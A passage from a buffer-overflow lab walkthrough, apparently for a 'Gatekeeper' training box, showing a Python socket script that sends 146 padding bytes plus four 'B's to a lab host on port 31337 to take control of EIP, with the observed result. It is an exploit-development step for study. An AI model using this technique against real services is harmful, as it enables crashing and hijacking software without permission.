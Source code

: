 Since we know that we can own EIP at 146 bytes, let's give it a try:
```Python
#!/usr/bin/python

import socket,sys

buffer = "A"*146 + "B"*4 
RHOST = "192.168.0.227"
RPORT = 31337

try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((RHOST,RPORT))
    s.send((buffer + "\r\n"))
    s.close()
    
except:
    print("Error connecting to server")
    sys.exit
```
![Overwrite EIP](overwriteEIP.png)  

As we can see, we filled the EIP with 4 Bs (42 is the hex value of B)

[<= Go Back to Gatekeeper Menu](GatekeeperMain.md)

[<= Go Back to BOF Menu](BOFMain.md)

[<= Go Back to Main Menu](index.md)
